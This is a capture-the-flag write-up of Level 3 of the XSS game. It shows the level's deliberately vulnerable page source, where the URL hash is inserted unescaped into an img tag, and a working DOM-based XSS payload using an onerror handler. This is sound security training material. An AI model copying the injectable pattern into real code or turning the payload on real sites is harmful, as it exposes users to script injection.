 ```yaml
---
title: Level 3 That sinking feeling...
edit_url: null
---
```


![1](https://github.com/user-attachments/assets/90bc719e-e4ad-4584-bb07-1e6d9be989df)

## Hints

> 1. To locate the cause of the bug, review the JavaScript to see where it handles user-supplied input.

> 2. Data in the `window.location` object can be influenced by an attacker.

> 3. When you've identified the injection point, think about what you need to do to sneak in a new HTML element.

> 4. As before, using `<script> ...` as a payload won't work because the browser won't execute scripts added after the page has loaded.

## Script

```html {17,20} showLineNumbers title="index.html"
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
 
    <!-- Load jQuery -->
    <script
      src="//ajax.googleapis.com/ajax/libs/jquery/2.1.1/jquery.min.js">
    </script>
 
    <script>
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
 
        window.location.hash = num;
 
        // Select the current tab
        var tabs = document.querySelectorAll('.tab');
        for (var i = 0; i < tabs.length; i++) {
          if (tabs[i].id == "tab" + parseInt(num)) {
            tabs[i].className = "tab active";
            } else {
            tabs[i].className = "tab";
          }
        }
 
        // Tell parent we've changed the tab
        top.postMessage(self.location.toString(), "*");
      }
 
      window.onload = function() { 
        chooseTab(unescape(self.location.hash.substr(1)) || "1");
      }
 
      // Extra code so that we can communicate with the parent page
      window.addEventListener("message", function(event){
        if (event.source == parent) {
          chooseTab(unescape(self.location.hash.substr(1)));
        }
      }, false);
    </script>
 
  </head>
  <body id="level3">
    <div id="header">
      <img id="logo" src="/static/logos/level3.png">
      <span>Take a tour of our cloud data center.</a>
    </div>
 
    <div class="tab" id="tab1" onclick="chooseTab('1')">Image 1</div>
    <div class="tab" id="tab2" onclick="chooseTab('2')">Image 2</div>
    <div class="tab" id="tab3" onclick="chooseTab('3')">Image 3</div>
 
    <div id="tabContent"> </div>
  </body>
</html>
```

In the source code we can see that the `num` variable is populated with the value of `window.location.hash`.

```
e.g.
URL: https://xss-game.appspot.com/level3/frame#1
num = 1
```

The value of `num` is then inserted into the source address of the image.

```
html += "<img src='/static/level3/cloud" + num + ".jpg' />";

e.g.
num = 1
html += "<img src='/static/level3/cloud1.jpg' />";
```

## Payload

Since we can control the value of `window.location.hash`, we can control the source address of the image.

In order to solve this level, we can provide the following URI: 

```
https://xss-game.appspot.com/level3/frame#4' onerror=alert(1) ";
```

This will cause the source code to look as follows:

![2](https://github.com/user-attachments/assets/932a645a-9fe7-466f-8b8c-f620b1e4f704)

![3](https://github.com/user-attachments/assets/23e4f6c1-39bd-4b74-aaa9-7327aa06ebec)
